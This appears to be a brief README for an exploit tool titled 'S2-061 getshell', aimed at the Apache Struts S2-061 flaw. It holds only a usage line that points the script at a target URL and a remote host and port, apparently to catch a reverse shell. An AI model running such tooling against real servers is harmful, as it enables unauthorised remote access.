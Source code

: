 # S2-061
S2-061 getshell
 Example:
       S2-061-shell.py -u http://127.0.0.1:8080  -r 10.0.0.1 -p 3306 
       
